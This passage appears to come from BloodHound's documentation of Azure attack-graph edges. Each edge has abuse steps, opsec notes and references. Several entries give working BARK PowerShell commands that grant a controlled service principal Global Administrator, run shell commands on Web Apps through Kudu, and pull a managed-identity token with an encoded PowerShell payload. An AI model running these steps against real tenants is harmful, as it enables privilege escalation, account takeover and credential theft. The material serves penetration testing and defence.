Azure creates an event called "Update application - Certificates
and secrets management". This event describes who added the secret
to which application or service principal.

References
----------

* https://attack.mitre.org/techniques/T1098/
* https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5
* https://github.com/BloodHoundAD/BARK

|

----

|

AZMGApplication_ReadWrite_All
^^^^^^^

This edge is created when a Service Principal has been 
granted the Application.ReadWrite.All edge.

Abuse Info
------------

The edge is not abusable, but is used during post-processing to create 
abusable edges.

Opsec Considerations
--------------------

No opsec considerations apply to this edge.

References
----------

* https://attack.mitre.org/techniques/T1098/
* https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5

|

----

|

AZMGAppRoleAssignment_ReadWrite_All
^^^^^^^

This edge is created when a Service Principal has been 
granted the AppRoleAssignment.ReadWrite.All edge.

Abuse Info
------------

The edge is not abusable, but is used during post-processing to create 
abusable edges.

Opsec Considerations
--------------------

No opsec considerations apply to this edge.

References
----------

* https://attack.mitre.org/techniques/T1098/
* https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5

|

----

|

AZMGDirectory_ReadWrite_All
^^^^^^^

This edge is created when a Service Principal has been 
granted the Directory.ReadWrite.All edge.

Abuse Info
------------

The edge is not abusable, but is used during post-processing to create 
abusable edges.

Opsec Considerations
--------------------

No opsec considerations apply to this edge.

References
----------

* https://attack.mitre.org/techniques/T1098/
* https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5

|

----

|

AZMGGrantAppRoles
^^^^^^^

This edge is created during post-processing. It is created against 
AzureAD tenant objects when a Service Principal has one of the following 
MS Graph app role assignments:

* AppRoleAssignment.ReadWrite.All
* RoleManagement.ReadWrite.Directory


Abuse Info
------------

With the ability to grant arbitrary app roles, you can grant 
the RoleManagement.ReadWrite.Directory app role to a Service 
Principal you already control, and then promote it or another 
principal to Global Administrator.

These functions require you to supply an MS Graph-scoped JWT 
associated with the Service Principal that has the privilege 
to grant app roles. There are several ways to
acquire a JWT. For example, you may use BARK's
Get-MSGraphTokenWithClientCredentials to acquire an MS Graph-scoped JWT
by supplying a Service Principal Client ID and secret:

::

	$MGToken = Get-MSGraphTokenWithClientCredentials `
	    -ClientID "34c7f844-b6d7-47f3-b1b8-720e0ecba49c" `
	    -ClientSecret "asdf..." `
	    -TenantName "contoso.onmicrosoft.com"


Use BARK's Get-AllAzureADServicePrincipals to collect all 
Service Principal objects in the tenant:

::


	$SPs = Get-AllAzureADServicePrincipals `
	    -Token $MGToken


Next, find the MS Graph Service Principal's ID. You can do this by 
piping $SPs to Where-Object, finding objects where the appId value 
matches the universal ID for the MS Graph Service Principal, which is 
00000003-0000-0000-c000-000000000000:

::


	$SPs | ?{$_.appId -Like "00000003-0000-0000-c000-000000000000"} | Select id


The output will be the object ID of the MS Graph Service Principal. 
Take that ID and use it as the "ResourceID" argument for BARK's 
New-AppRoleAssignment function. The AppRoleID of '9e3f62cf-ca93-4989-b6ce-bf83c28f9fe8' 
is the universal ID for RoleManagement.ReadWrite.Directory. The 
SPObjectId is the object ID of the Service Principal you want to grant 
this app role to:

::


	New-AppRoleAssignment `
	    -SPObjectId "6b6f9289-fe92-4930-a331-9575e0a4c1d8" `
	    -AppRoleID "9e3f62cf-ca93-4989-b6ce-bf83c28f9fe8" `
	    -ResourceID "9858020a-4c00-4399-9ae4-e7897a8333fa" `
	    -Token $MGToken


If successful, the output of this command will show you the App Role 
assignment ID. Now that your Service Principal has the RoleManagement.ReadWrite.Directory 
MS Graph app role, you can promote the Service Principal to Global Administrator 
using BARK's New-AzureADRoleAssignment.

::


	New-AzureADRoleAssignment `
	    -PrincipalID "6b6f9289-fe92-4930-a331-9575e0a4c1d8" `
	    -RoleDefinitionId "62e90394-69f5-4237-9190-012177145e10" `
	    -Token $MGToken


If successful, the output will include the principal ID, the role ID, and a 
unique ID for the role assignment.

Opsec Considerations
--------------------

When you assign an app role to a Service Principal, the Azure 
Audit logs will create an event called "Add app role assignment 
to service principal". This event describes who made the change, 
what the target service principal was, and what app role assignment 
was granted.

References
----------

* https://attack.mitre.org/techniques/T1098/
* https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5
* https://github.com/BloodHoundAD/BARK

|

----

|

AZMGGrantRole
^^^^^^^

This edge is created during post-processing. It is created against 
all AzureAD admin roles when a Service Principal has the following 
MS Graph app role assignment:

* RoleManagement.ReadWrite.Directory

This privilege allows the Service Principal to promote itself or 
any other principal to any AzureAD admin role, including Global 
Administrator.

Abuse Info
------------

To abuse this privilege, you can promote a principal you control 
to Global Administrator using BARK's New-AzureADRoleAssignment.
This function requires you to supply an MS Graph-scoped JWT 
associated with the Service Principal that has the privilege 
to grant AzureAD admin roles. There are several ways to
acquire a JWT. For example, you may use BARK's
Get-MSGraphTokenWithClientCredentials to acquire an MS Graph-scoped JWT
by supplying a Service Principal Client ID and secret:

::


	$MGToken = Get-MSGraphTokenWithClientCredentials `
	    -ClientID "34c7f844-b6d7-47f3-b1b8-720e0ecba49c" `
	    -ClientSecret "asdf..." `
	    -TenantName "contoso.onmicrosoft.com"


Then use BARK's New-AzureADRoleAssignment function to grant the 
AzureAD role to your target principal:

::


	New-AzureADRoleAssignment `
	    -PrincipalID "6b6f9289-fe92-4930-a331-9575e0a4c1d8" `
	    -RoleDefinitionId "62e90394-69f5-4237-9190-012177145e10" `
	    -Token $MGToken


If successful, the output will include the principal ID, the role ID, and a 
unique ID for the role assignment.

Opsec Considerations
--------------------

When you assign an AzureAD admin role to a principal
using this privilege, the Azure Audit log will create
an event called "Add member to role outside of PIM 
(permanent)".

References
----------

* https://attack.mitre.org/techniques/T1098/
* https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5
* https://github.com/BloodHoundAD/BARK

|

----

|

AZMGGroupMember_ReadWrite_All
^^^^^^^

This edge is created when a Service Principal has been 
granted the GroupMember.ReadWrite.All edge.

Abuse Info
------------

The edge is 
not abusable, but is used during post-processing to create 
abusable edges.

Opsec Considerations
--------------------

No opsec considerations apply to this edge.

References
----------

* https://attack.mitre.org/techniques/T1098/
* https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5

|

----

|

AZMGGroup_ReadWrite_All
^^^^^^^

This edge is created when a Service Principal has been 
granted the Group.ReadWrite.All edge.

Abuse Info
------------

The edge is 
not abusable, but is used during post-processing to create 
abusable edges.

Opsec Considerations
--------------------

No opsec considerations apply to this edge.

References
----------

* https://attack.mitre.org/techniques/T1098/
* https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5

|

----

|

AZMGRoleManagement_ReadWrite_Directory
^^^^^^^

This edge is created when a Service Principal has been 
granted the RoleManagement.ReadWrite.Directory edge.

Abuse Info
------------

The edge is 
not abusable, but is used during post-processing to create 
abusable edges.

Opsec Considerations
--------------------

No opsec considerations apply to this edge.

References
----------

* https://attack.mitre.org/techniques/T1098/
* https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5
* https://docs.microsoft.com/en-us/azure/active-directory/roles/assign-roles-different-scopes

|

----

|

AZMGServicePrincipalEndpoint_ReadWrite_All
^^^^^^^

This edge is created when a Service Principal has been 
granted the ServicePrincipalEndpoint.ReadWrite.All edge.

Abuse Info
------------

The edge is 
not abusable, but is used during post-processing to create 
abusable edges.

Opsec Considerations
--------------------

No opsec considerations apply to this edge.

References
----------

* https://attack.mitre.org/techniques/T1098/
* https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5

|

----

|

AZNodeResourceGroup
^^^^^^^

This edge is created to link Azure Kubernetes Service 
Managed Clusters to the Virtual Machine Scale Sets they
use to execute commands on.

The system-assigned identity for the AKS Cluster will 
have the Contributor role against the target Resource Group 
and its child Virtual Machine Scale Sets.

Abuse Info
------------

You will abuse this relationship by executing a command 
against the AKS Managed Cluster the edge is emiting from.
You can target any managed identity assignment scoped to 
the Virtual Machine Scale Sets under the target Resource Group.

Opsec Considerations
--------------------

This will depend on which particular abuse you perform, but in
general Azure will create a log event for each abuse.

References
----------

* https://github.com/BloodHoundAD/BARK
* https://www.netspi.com/blog/technical/cloud-penetration-testing/extract-credentials-from-azure-kubernetes-service/

|

----

|

AZOwns
^^^^^^^

Object ownership means almost all abuses are possible against the
target object.

Abuse Info
------------

Everything a Contributor can do, with the addition of assigning
rights to resources.

Opsec Considerations
--------------------

This depends on which abuse you perform, but in general Azure will
create a log for each abuse action.

References
----------

* https://blog.netspi.com/attacking-azure-with-custom-script-extensions/
* https://docs.microsoft.com/en-us/azure/role-based-access-control/built-in-roles#owner

|

----

|

AZPrivilegedRoleAdmin
^^^^^^^^^^^^^^^^^^^^^

The Privileged Role Admin role can grant any other admin role to another principal
at the tenant level.

Abuse Info
------------

Activate the Global Admin role for yourself or for another user using PowerZure or
PowerShell.

Opsec Considerations
--------------------

The Azure Activity Log will log who activated an admin role for what other principal,
including the date and time.

References
----------

https://powerzure.readthedocs.io/en/latest/Functions/operational.html#add-azureadrole

|

----

|

AZResetPassword
^^^^^^^^^^^^^^^

The ability to change another user’s password without knowing their current password.

Abuse Info
------------

Find the user in the Azure portal, then click "Reset Password", or use PowerZure’s
Set-AzureUserPassword cmdlet. If password write-back is enabled, this password will
also be set for a synced on-prem user.

Opsec Considerations
--------------------

Azure will log each password reset event, including who performed the reset, against which account, and at what date and time.

References
----------

https://powerzure.readthedocs.io/en/latest/Functions/operational.html#set-azureuserpassword

|

----

|

AZRunsAs
^^^^^^^^

The Azure App runs as the Service Principal when it needs to authenticate to the tenant.

Abuse Info
------------

This edge should be taken into consideration when abusing control of an app. Apps authenticate
with service principals to the tenant, so if you have control of an app, what you are abusing
is that control plus the fact that the app runs as a privileged service principal.


|

----

|

AZUserAccessAdministrator
^^^^^^^^^^^^^^^^^^^^^^^^^

The User Access Admin role can edit roles against many other objects.

Abuse Info
------------
This role can be used to grant yourself or another principal any privilege
you want against Automation Accounts, VMs, Key Vaults, and Resource Groups.
Use the Azure portal to add a new, abusable role assignment against the target
object for yourself.

Opsec Considerations
--------------------

Azure will log any role activation event for any object type.

References
----------

https://blog.netspi.com/maintaining-azure-persistence-via-automation-accounts/

|

----

|

AZVMAdminLogin
^^^^^^^

When a virtual machine is configured to allow logon with Azure
AD credentials, the VM automatically has certain principals
added to its local administrators group, including any principal
granted the Virtual Machine Administrator Login (or "VMAL")
admin role.

Any principal granted this role, scoped to the affected VM, can
connect to the VM via RDP and will be granted local admin rights
on the VM.

Abuse Info
------------

Connect to the VM via RDP and you will be granted local admin rights
on the VM.

Opsec Considerations
--------------------

If the target computer is a workstation and a user is currently
logged on, one of two things will happen. If the user you are
abusing is the same user as the one logged on, you will
effectively take over their session and kick the logged on user
off, resulting in a message to the user. If the users are
different, you will be prompted to kick the currently logged on
user off the system and log on. If the target computer is a
server, you will be able to initiate the connection without
issue provided the user you are abusing is not currently logged
in.

Remote desktop will create Logon and Logoff events with the
access type RemoteInteractive.

References
----------

* https://attack.mitre.org/tactics/TA0008/
* https://attack.mitre.org/techniques/T1021/
* https://docs.microsoft.com/en-us/azure/active-directory/devices/howto-vm-sign-in-azure-ad-windows

|

----

|

AZVMContributor
^^^^^^^

The Virtual Machine contributor role grants almost all abusable
privileges against Virtual Machines.

Abuse Info
------------

The Virtual Machine Contributor role allows you to run SYSTEM
commands on the VM

Via PowerZure:

* `Invoke-AzureRunCommand <https://powerzure.readthedocs.io/en/latest/Functions/operational.html#invoke-azureruncommand>`_
* `Invoke-AzureRunMSBuild <https://powerzure.readthedocs.io/en/latest/Functions/operational.html#invoke-azurerunmsbuild>`_
* `Invoke-AzureRunProgram <https://powerzure.readthedocs.io/en/latest/Functions/operational.html#invoke-azurerunprogram>`_


Opsec Considerations
--------------------

Because you'll be running a command as the SYSTEM user on the
Virtual Machine, the same opsec considerations for running malicious
commands on any system should be taken into account: command line
logging, PowerShell script block logging, EDR, etc.

References
----------

* https://blog.netspi.com/running-powershell-scripts-on-azure-vms/

|

----

|

AZWebsiteContributor
^^^^^^^

The Website Contributor role grants full control of the target 
Function App or Web App. Full control of either of those types 
of resources allows for arbitrary command execution against the 
target resoruce.

Abuse Info
------------

You can use BARK's Invoke-AzureRMWebAppShellCommand function 
to execute commands on a target Web App. You can use BARK's 
New-PowerShellFunctionAppFunction, Get-AzureFunctionAppMasterKeys, 
and Get-AzureFunctionOutput functions to execute arbitrary 
commands against a target Function App.

These functions require you to supply an Azure Resource Manager
scoped JWT associated with the principal that has the privilege
to execute commands on the web app or function app. There are
several ways to acquire a JWT. For example, you may use BARK's
Get-ARMTokenWithRefreshToken to acquire an Azure RM-scoped JWT
by supplying a refresh token:

::

	$ARMToken = Get-ARMTokenWithRefreshToken `
	    -RefreshToken "0.ARwA6WgJJ9X2qk..." `
	    -TenantID "contoso.onmicrosoft.com"


Now you can use BARK's Invoke-AzureRMWebAppShellCommand function 
to execute a command against the target Web App.
For example, to run a simple "whoami" command:

::

	Invoke-AzureRMWebAppShellCommand `
	    -KuduURI "https://mycoolwindowswebapp.scm.azurewebsites.net/api/command" `
	    -Token $ARMToken `
	    -Command "whoami"


If the Web App has a managed identity assignments, you can use BARK's 
Invoke-AzureRMWebAppShellCommand function to retrieve a JWT for the 
managed identity Service Principal like this:

::

	PS C:\> $PowerShellCommand =
		$headers=@{"X-IDENTITY-HEADER"=$env:IDENTITY_HEADER}
		$response = Invoke-WebRequest -UseBasicParsing -Uri "$($env:IDENTITY_ENDPOINT)?resource=https://storage.azure.com/&api-version=2019-08-01" -Headers $headers
		$response.RawContent
    
	PS C:\> $base64Cmd = [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($PowerShellCommand))

	PS C:\> $Command = "powershell -enc $($base64Cmd)"

	PS C:\> Invoke-AzureRMWebAppShellCommand `
		-KuduURI "https://mycoolwindowswebapp.scm.azurewebsites.net/api/command" `
		-token $ARMToken `
		-Command $Command


If successful, the output will include a JWT for the managed identity 
service principal.

Opsec Considerations
--------------------

This will depend on which particular abuse you perform, but in
general Azure will create a log event for each abuse.

References
----------

* https://github.com/BloodHoundAD/BARK
* https://www.netspi.com/blog/technical/cloud-penetration-testing/lateral-movement-azure-app-services/
* https://posts.specterops.io/abusing-azure-app-service-managed-identity-assignments-c3adefccff95

|

----

|

